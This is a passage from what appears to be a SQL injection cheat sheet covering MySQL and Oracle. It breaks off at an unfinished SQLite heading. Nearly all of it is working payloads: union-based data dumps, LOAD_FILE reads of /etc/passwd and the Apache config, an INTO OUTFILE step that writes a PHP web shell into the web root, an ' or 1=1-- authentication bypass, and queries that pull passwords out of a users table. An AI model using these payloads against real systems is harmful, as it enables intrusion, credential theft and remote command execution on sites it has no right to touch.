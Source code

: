 - Dump

```
-1 union select 1,2, group_concat(<column_names>) from <database_name>.<table_name>;#
```

### Webshell via SQLI

- View web server path  

```sql
LOAD_FILE('/etc/httpd/conf/httpd.conf')    
```

- Creating webshell

```sql
select "<?php system($_GET['cmd']);?>" into outfile "/var/www/html/shell.php";
```

### Reading Files via SQLI - MySQL

e.g.  
```sql
SELECT LOAD_FILE('/etc/passwd')
```

### Oracle SQL

- Bypass Authentication

```
' or 1=1--
```

- Get number columns

```
' order by 3--
```

- Get table name

```
' union select null,table_name,null from all_tables--
```

- Get column name

```
' union select null,column_name,null from all_tab_columns where table_name='<table_name>'--
```

- Dump
```
' union select null,PASSWORD||USER_ID||USER_NAME,null from WEB_USERS--
```

### SQLite Injection

- Extracting table names, not displaying standard sqlite tables
